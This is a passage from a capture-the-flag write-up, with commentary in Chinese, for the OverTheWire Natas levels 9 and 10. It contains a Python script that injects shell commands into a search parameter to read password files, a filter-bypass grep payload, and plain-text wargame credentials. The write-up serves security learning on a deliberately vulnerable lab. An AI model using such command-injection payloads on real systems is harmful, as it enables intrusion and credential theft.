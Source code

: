 			import requests as req
			import re

			user = "natas9"
			passwd = "W0mMhUcRRnG8dcghE4qvk3JA9lGt8nDl"

			viewSourceCode = 'index-source.html'

			params = {"needle": ".; cat /etc/natas_webpass/natas10 #", "submit": "submit"}

			url = f"http://{user}.natas.labs.overthewire.org/"

			response = req.get(url, auth=(user, passwd), params=params)
			content = response.text

			# . => 在 default 模式，匹配除了'\n'的任意字符。
			# * => 對它前面的 regular expression 匹配 0 到任意次重復。

			# with open("./Natas/response.html", mode='w', encoding='utf-8') as f:
			#     print(content, file=f)

			answer = re.findall("<pre>\n(.*)\n", content)[0]
			print(answer)
            ```

# <span class="bigTitle">Level10</span>
- username: natas10
- password: nOpp1igQAkUzaI1GUUjzn1bFVj7xCNzu
- url: http://natas10.natas.labs.overthewire.org/
- Solution
    - 這題跟Level9很像，只是這題有擋一些字串，那這題其實可以用grep的一些方法來讓它output ==/etc/natas_webpass/natas11== 的內容
    - source code
        ![](https://i.imgur.com/CYAVhNf.png)
    - 讓grep一次搜尋多個檔案
        ```bash=
        grep [Options] Patterns [File] [File]....
        # 我輸入的內容
        . /etc/natas_webpass/natas11 #
        ```
    - Python code其實跟上一題很像只要改 :
        1. user
        2. passwd
        3. params中needle的value
        4. .findall中要搜尋的string
